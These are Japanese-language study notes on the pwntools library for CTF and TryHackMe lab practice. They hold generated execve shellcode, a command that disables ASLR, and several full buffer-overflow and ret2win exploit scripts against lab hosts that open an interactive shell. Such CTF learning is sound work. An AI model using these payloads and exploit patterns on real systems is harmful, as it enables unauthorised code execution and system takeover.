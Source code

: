 # pwntools

https://github.com/Gallopsled/pwntools

https://tryhackme.com/room/introtopwntools

## インストール

kali の場合、pwn と打ってインストールされていなければインストールするか聞かれるので Yes と答えるだけ。

## コマンド

### checksec

```shell
# 実行ファイルで有効になっているセキュリティ機構を調べる
checksec --file <file>
```

### cyclic

```shell
cyclic 100 > pattern

cat pattern
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

```shell
# バッファオーバーフローをテストする
gdb> r < pattern
```

eip が `jaaa` で上書きされていたとして、その部分を目的の関数アドレスにしたペイロードを作成したい場合。

```python
# gdb> disassemble <function> 等で関数アドレスを得る
from pwn import *

padding = cyclic(cyclic_find('jaaa'))
eip = p32(0x08048536)
payload = padding + eip
print(payload)
```

### shellcraft

64 ビットの場合、amd64.linux.execve

```shell
# シェルコードのアセンブラ出力
pwn shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f a

# シェルコードのバイトコード出力
pwn shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f s

# \xNN の形に統一
pwn shellcraft i386.linux.execve "/bin///sh" "['sh','-p']" -f s | python3 -c "import sys; from codecs import decode; s=sys.stdin.read().strip()[2:-1]; print(''.join(f'\\x{b:02x}' for b in decode(s, 'unicode_escape')))"
```

```shell
# SETREUID のシェルコード出力
pwn shellcraft -f d amd64.linux.setreuid 1002
```

シェルコードを埋め込む例

```python
from pwn import *

proc = process('./intro2pwnFinal')
proc.recvline()

padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd510+200)
nop_slide = "\x90"*1000
# ブレークポイント命令（シェルコードを入れる前のテスト用）
# shellcode = "\xcc"
shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
payload = padding + eip + nop_slide + shellcode

proc.send(payload)

# シェルと通信するためインタラクティブが必要
proc.interactive()
```

（参考）ASLR（アドレス空間配置のランダム化）無効化

```shell
echo 0 | tee /proc/sys/kernel/randomize_va_space
```

## ネットワーク経由

```python
from pwn import *

connect = remote('127.0.0.1', 1336)
print(connect.recvn(18))
payload = "A"*32
payload += p32(0xdeadbeef)
connect.send(payload)

print(connect.recvn(34))
```

## バイナリ解析

```python
# ライブラリをロード
>>> from pwn import *

# バイナリをロード
>>> binary = context.binary = ELF("./elf_file")

# 関数のアドレス
>>> hex(binary.symbols['vuln'])

# retガジェット
>>> ret_gadget = ROP(binary).find_gadget(['ret'])[0]
```

## 例

### バッファオーバーフロー

```shell
#!/usr/bin/env pyhon3
from pwn import *
import sys

host = "10.10.37.23"
port = 5700
context(terminal = ['tmux', 'new-window'])

binary = context.binary = ELF("./DearQA-1627223337406.DearQA")
context(os = "linux", arch = "amd64")
connect = remote(host, port)
log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"What's your name: ")
log.info("[+] Crafting payload")
payload = b'A' * 40
payload += p64(0x00400686)
log.info("[+] Sending Payload to the remote server")
connect.sendline(payload)
connect.interactive()
```

上記の例で、binary と 2 か所の context は、コメントアウトしても機能する。

### ret ガジェット

64 ビット OS で、RSP が 16 バイト境界にない場合、ret ガジェットが必要になる。

RSP 0x7fffffffdcf8 　のように、末尾が 0 出ない場合ずれている。

```python
from pwn import *

# Set the binary context
elf = context.binary = ELF('./tryretme')  # Replace with the actual binary name

# Connect to the remote server
p = remote('10.10.23.250', 9006)

# Address of the win function
win_addr = elf.symbols['win']

# Address of a `ret` gadget (you can find this with tools like ROPgadget or Pwntools)
# This gadget is simply one instruction: `ret`, which fixes stack alignment.
ret_gadget = ROP(elf).find_gadget(['ret'])[0]

# Offset (determined from cyclic_find)
offset = 264

# Payload: buffer + ret gadget + return address (win function)
payload = b'A' * offset
payload += p64(ret_gadget)  # Add the ret gadget to fix alignment
payload += p64(win_addr)

# Send the payload
p.sendlineafter('Return to where? : ', payload)

# Interact with the shell
p.interactive()
```

### 受信したデータをペイロードに反映する

TryPwnMeOne CTF 参照。

```python
#!/usr/bin/env pyhon3
from pwn import *
import sys

host = "10.10.61.104"
port = 9007

vuln_addr = 0x1319
win_addr = 0x1210
ret_gadget = 0x101a

context(os = "linux", arch = "amd64")
connect = remote(host, port)

# vuln関数アドレスを表示する行を受信するまで待つ
while True:
    line = connect.recvline().decode()
    log.info(f"{line.strip()}")
    if "I can give you a secret" in line:
        break

# アドレス部分（16進数）を抽出
match = re.search(r"I can give you a secret ([0-9a-fA-F]+)", line)
if match:
    vuln_abs_addr = int(match.group(1), 16)
    log.info(f"[+] vuln address: {hex(vuln_abs_addr)}")
    offset = vuln_abs_addr - vuln_addr
else:
    log.error("vulnアドレスの抽出に失敗しました")
    sys.exit(1)

log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"Where are we going? : ")
log.info("[+] Crafting payload")
payload = b'A' * (256+8)

payload += p64(offset + ret_gadget) # retガジェット
payload += p64(offset + win_addr)
log.info("[+] Sending Payload to the remote server")
connect.sendline(payload)
connect.interactive()
```

